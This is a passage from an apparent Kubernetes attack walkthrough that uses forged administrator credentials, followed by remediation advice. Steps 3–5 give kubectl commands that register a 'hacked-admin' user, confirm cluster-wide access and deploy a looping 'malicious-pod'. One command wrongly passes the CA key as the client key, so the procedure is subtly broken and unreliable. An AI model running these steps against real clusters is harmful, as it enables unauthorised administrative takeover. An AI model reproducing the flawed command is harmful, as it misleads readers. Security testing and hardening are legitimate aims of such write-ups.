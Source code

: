3.  **Configure `kubectl` to use the newly created certificate and key:**

    ```bash
    kubectl config set-credentials hacked-admin --client-certificate=admin.crt --client-key=ca.key --embed-certs=true
    kubectl config set-context hacked-admin-context --cluster=<cluster_name> --user=hacked-admin
    kubectl config use-context hacked-admin-context
    ```

    *   **Explanation:** Configures `kubectl` to use the `admin.crt` and `ca.key` files for authentication, impersonating the `system:admin` user.  Replace `<cluster_name>` with the name of your Kubernetes cluster. You can find the cluster name with `kubectl config view`. The `--embed-certs=true` option stores the certificate in the `kubectl` configuration file.
    *   **Expected Output:**  The `kubectl` configuration will be updated.
    *   **Why:** Allows you to interact with the Kubernetes API server using the forged administrator credentials.

4.  **Verify Administrator Access:**

    ```bash
    kubectl get pods --all-namespaces
    ```

    *   **Explanation:**  Retrieves a list of all pods across all namespaces. This requires cluster-admin privileges.
    *   **Expected Output:**  A list of all pods in all namespaces. If the command is successful, it confirms that you have successfully impersonated an administrator user. If it fails, double-check the certificate generation and `kubectl` configuration steps.
    *   **Why:** Confirms successful exploitation by demonstrating access to resources requiring high privileges.

5.  **(Optional) Deploy a Malicious Pod:**

    ```bash
    kubectl run malicious-pod --image=alpine/curl --restart=Never --command -- sh -c "while true; do curl http://internal-service; sleep 1; done"
    ```

    *   **Explanation:** Deploys a simple pod that continuously makes requests to an internal service.  This is a demonstration of the ability to deploy arbitrary workloads to the cluster.
    *   **Expected Output:** The `malicious-pod` will be created and start running.
    *   **Why:** To demonstrate the potential for deploying malicious payloads.

### Remediation Recommendations

1.  **Secure the CA Key:** Store the `ca.key` file securely, preferably using a Hardware Security Module (HSM).
2.  **Restrict Access to Control Plane Nodes:** Implement strong access controls and monitoring on control plane nodes.  Limit SSH access to only authorized personnel and enforce multi-factor authentication.
3.  **Rotate Certificates Regularly:**  Rotate the CA certificate and key periodically to reduce the impact of a potential compromise.
4.  **Monitor for Suspicious Activity:** Implement intrusion detection systems (IDS) and security information and event management (SIEM) systems to monitor for suspicious activity on control plane nodes, such as unauthorized access attempts or file modifications.
5.  **Implement Role-Based Access Control (RBAC):**  Enforce the principle of least privilege by granting users and service accounts only the necessary permissions.  Avoid granting cluster-admin privileges unnecessarily.
6.  **Regular Security Audits:** Perform regular security audits of the Kubernetes cluster to identify and address potential vulnerabilities.
7.  **Network Segmentation:** Segregate the control plane network from other networks to limit the impact of a compromise.
8.  **Secret Management:** Store sensitive data, such as API keys and passwords, in Kubernetes secrets. Securely manage and rotate these secrets regularly.
9. **Consider using a managed Kubernetes service:** Services such as GKE, EKS, and AKS handle the management of the control plane, including CA management. This significantly reduces the risk of CA compromise.
